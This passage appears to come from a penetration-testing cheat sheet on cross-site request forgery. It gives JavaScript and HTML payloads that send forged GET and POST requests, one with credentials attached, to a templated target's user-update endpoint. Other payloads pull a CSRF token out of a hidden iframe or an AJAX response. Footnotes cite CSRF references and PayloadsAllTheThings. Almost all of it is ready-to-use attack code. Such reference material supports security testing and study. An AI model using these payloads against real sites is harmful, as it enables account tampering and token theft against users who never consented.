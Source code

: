 ### AJAX GET

```javascript
var url = "http://{{< param "m.RDOMAIN" >}}/user/update/?username=0xffsec"
var xhr = new XMLHttpRequest();
xhr.open("GET", url);
xhr.setRequestHeader("Content-Type", "text/plain");
xhr.send();
```

### AJAX POST

```javascript
var url = "http://{{< param "m.RDOMAIN" >}}/user/update/"
var xhr = new XMLHttpRequest();
xhr.open("POST", url, true);
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.send("username=0xffsec");
```

```javascript
var url = "http://{{< param "m.RDOMAIN" >}}/user/update/"
var xhr = new XMLHttpRequest();
xhr.open("POST", url, true);
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"username":0xffsec}');
```

{{<hint info>}}
AS mention [before](#content-type), try with different content types:

- `xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");`
- `xhr.setRequestHeader("Content-Type", "multipart/form-data");`
{{</hint>}}

### Get Token from iFrame

```html
<script>
function getToken(){
    var iframe = document.getElementById("iframe");
    var doc = iframe.contentDocument ? iframe.contentDocument: iframe.contentWindow.document;
    var token = doc.getElementsByName("user_token")[0].value;
    console.log(token)
}
</script>
<iframe id="iframe" onload="javascript:getToken();" src="http://{{< param "m.RDOMAIN" >}}/user/update/" style="display:none;"></iframe>
```

### Get Token with Ajax

```javascript
var url = "http://{{< param "m.RDOMAIN" >}}/user/update/"
var xhr = new XMLHttpRequest();
xhr.responseType = "document";
xhr.open("GET", url, true);
xhr.onload = function (e) {
    if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
        var token = xhr.response.getElementsByName("user_token")[0].value;
        console.log(token);
    }
};
xhr.send();
```


[^csrf-cgisecurity]: “The Cross-Site Request Forgery (CSRF/XSRF) FAQ.” CGISecurity - Website and Application Security News, https://www.cgisecurity.com/csrf-faq.html.
[^swissky-csrf]: swisskyrepo. “PayloadsAllTheThings/CSRF Injection at Master.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection.
[^referer-bypass]: “Bypass Referer Check Logic for CSRF.” HAHWUL, https://www.hahwul.com/2019/10/11/bypass-referer-check-logic-for-csrf/.
[^referer-referrer-policy]: “Referer and Referrer-Policy Best Practices.” Web.Dev, https://web.dev/referrer-best-practices/.